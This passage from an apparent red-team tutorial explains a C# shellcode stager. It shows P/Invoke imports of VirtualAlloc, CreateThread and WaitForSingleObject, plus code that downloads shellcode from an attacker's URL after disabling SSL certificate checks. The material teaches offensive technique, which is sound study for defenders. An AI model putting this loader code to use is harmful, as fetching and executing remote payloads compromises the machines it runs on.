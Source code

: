     <span class="token function">WaitForSingleObject</span><span class="token punctuation">(</span>threadHandle<span class="token punctuation">,</span> <span class="token number">0xFFFFFFFF</span><span class="token punctuation">)</span><span class="token punctuation">;</span>

  <span class="token punctuation">}</span>
<span class="token punctuation">}</span></code></pre>
</details>

The code may look intimidating at first but is relatively straightforward. Let's analyze what it does step by step.

The first part of the code will import some Windows API functions via  P/Invoke. The functions we need are the following three from `kernel32.dll`:

| **WinAPI Function**                                          | **Description**                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| [VirtualAlloc()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) | Allows us to reserve some memory to be used by our shellcode. |
| [CreateThread()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread) | Creates a thread as part of the current process.             |
| [WaitForSingleObject()](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject) | Used for thread synchronization. It allows us to wait for a thread to finish before continuing. |

The part of the code in charge of importing these functions is the following:

```csharp
//https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

//https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

//https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
```

The most significant part of our code will be in the `Stager()` function, where the stager logic will be implemented. The Stager  function will receive a URL from where the shellcode to be executed will be downloaded. 

The first part of the `Stager()` function will create a new `WebClient()` object that allows us to download the shellcode using web requests. Before making the actual request, we will overwrite the `ServerCertificateValidationCallback` method in charge of validating SSL certificates when using HTTPS  requests so that the WebClient doesn't complain about self-signed or  invalid certificates, which we will be using in the web server hosting  the payloads. After that, we will call the `DownloadData()` method to download the shellcode from the given URL and store it into the `shellcode` variable:

```csharp
WebClient wc = new WebClient();
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

byte[] shellcode = wc.DownloadData(url);
```
